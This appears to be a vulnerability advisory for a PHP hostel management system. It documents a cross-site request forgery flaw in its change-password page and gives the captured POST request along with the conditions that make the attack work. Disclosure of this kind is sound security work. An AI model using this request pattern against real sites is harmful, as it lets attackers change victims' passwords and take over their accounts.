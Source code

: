 ## Vulnerability Details

**Credits**:
  > Paul Rivera: (https://github.com/blackslim3)<br/>

**Tested On**:
  > Hostel Management System using PHP and MySQL 1.0 : https://github.com/Surya2Developer/Hostel_Management_System/

**Affected Version**:
  > Hostel Management System using PHP and MySQL 1.0

**Affected Site Page**:
  > /change-password.php

**Affected Code**:
  > change-password.php

**Related CWE**:
  > CWE-352: Cross-Site Request Forgery (CSRF): https://cwe.mitre.org/data/definitions/352.html

## **Details**:
  > On the change-password functionality, an attacker can induce a user to do unintended password change by visiting an attacker controlled website. 

```http
POST /hostel/change-password.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 94
Origin: http://localhost
Connection: close
Referer: http://localhost/hostel/change-password.php
Cookie: PHPSESSID=pl4c7vknv65g74iqov35nu8e01
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1


oldpassword=6786786786&newpassword=password123&cpassword=password123&changepwd=Change+Password

```

  > On the POST request above, it has the following conditions that allows a CSRF to work:
    - Relevant Action: change password
    - Cookie-based session handling
    - No unpredictable token needed
    - The `oldpassword` value can be the attacker's password. 

  > CSRF Exploit:
![image](https://github.com/blackslim3/cve_sidequest/blob/main/poc/assets/CSRF_exploit.png)

  > CSRF Exploit Successfuly
![image](https://github.com/blackslim3/cve_sidequest/blob/main/poc/assets/CSRF_changePassword_success.png)

## **Vulnerability Impact**:
    > In a successful CSRF attack, an attacker can causes a user to perform change password unintentionally.
    
